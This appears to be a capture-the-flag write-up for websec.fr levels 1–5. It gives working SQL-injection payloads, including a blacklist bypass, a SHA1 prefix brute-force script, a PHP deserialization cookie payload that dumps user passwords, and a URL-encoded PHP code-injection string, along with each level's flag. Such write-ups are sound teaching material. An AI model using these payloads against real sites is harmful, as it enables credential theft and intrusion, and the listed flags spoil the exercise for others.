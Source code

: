 **[Level01](http://websec.fr/level01/)**  
Using GROUP_CONCAT
```
-1 UNION SELECT 'a', GROUP_CONCAT(password) FROM users;--
```
```
WEBSEC{Simple_SQLite_Injection}
```
**[Level02](http://websec.fr/level02/)**  
It's same Level01 but filtered by the application using preg_replace()
```
$searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
$injection = preg_replace ('/' . $searchWords . '/i', '', $injection);
```
It replace 'union', 'order', 'select', 'from', 'group', 'by' to '', so we try
```
-1 UUNIONNION SSELECTELECT 'a', GGROUPROUP_CONCAT(password) FFROMROM users;--
```
```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```
**[Level03](http://websec.fr/level03/)**  
It's using <i>password_hash</i> and <i>password_verify</i>, but the hash string is special, it start with <i>7c00</i>
```
7c00249d409a91ab84e3f421c193520d9fb3674b
```
```
import hashlib
import string
i = 0;
while True:
    hash_object = hashlib.sha1(str(i).encode('utf-8')).hexdigest()
    if (hash_object.startswith("7c00")):
        print(i)
        break
    i = i + 1
```
```
WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}
```

**[Level04](http://websec.fr/level04/)**  
We can Deserialization by create same class
```
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
$newSQL = new SQL();
$newSQL->query = "SELECT password AS username FROM users"; // because it take $row['username']
echo base64_encode (serialize($newSQL));
?>
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIjtzOjQ6ImNvbm4iO047fQ
```
Change cookie <i>leet_hax0r</i> we got
```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

**[Level05](http://websec.fr/level05/)**  
http://websec.fr/level05/index.php?a=flag.php
```
%24%7Binclude_once%09%24_GET%5Ba%5D%7D+%24%7Bflag%7D
```
```
WEBSEC{Writing_a_sp3llcheckEr_in_php_aint_no_fun}
```